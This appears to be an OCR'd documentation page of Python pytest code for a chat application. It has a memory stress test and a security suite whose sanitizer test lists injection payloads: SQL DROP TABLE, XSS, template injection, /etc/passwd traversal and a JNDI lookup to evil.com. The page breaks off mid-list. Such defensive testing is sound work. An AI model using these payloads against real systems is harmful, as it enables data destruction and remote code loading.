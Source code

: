 ```python
    @pytest.mark.stress
    def test_memory_usage_stability(self):
        """Test memory usage under extended operation"""
        import psutil
        import gc
        
        process = psutil.Process()
        initial_memory = process.memory_info().rss
        
        # Simulate extended usage
        for i in range(1000):
            app.test_client().post("/chat", json={
                "message": f"Test query {i} for memory stability"
            })
            
            if i % 100 == 0:
                gc.collect()  # Force garbage collection
        
        final_memory = process.memory_info().rss
        memory_increase = (final_memory - initial_memory) / initial_memory
        
        # Memory increase should be less than 50% after 1000 requests
        assert memory_increase < 0.5
```

---

## 🔒 **Security Testing**

### **Security Test Suite**

```python
# test_security.py
import pytest
from src.security import InputSanitizer, AuthenticationManager

class TestSecurity:
    """🛡️ Security validation and penetration testing"""
    
    @pytest.mark.security
    def test_input_sanitization(self):
        """Test protection against injection attacks"""
        sanitizer = InputSanitizer()
        
        malicious_inputs = [
            "'; DROP TABLE users; --",
            "<script>alert('XSS')</script>",
            "{{config.__class__.__init__.__globals__}}",
            "../../../etc/passwd",
            "${jndi:ldap://evil.com/a}"
        ]
        
        for malicious_input in malicious_inputs:
            sanitized = sanitizer.sanitize(malicious_input)
            assert sanitized != malicious_input
            assert not sanitizer.contains_threats(sanitized)
    
    @pytest.mark.security
    def test_authentication_bypass_protection(self):
        """Test protection against authentication bypass"""
        auth_manager = AuthenticationManager()
        
        bypass_attempts = [
```
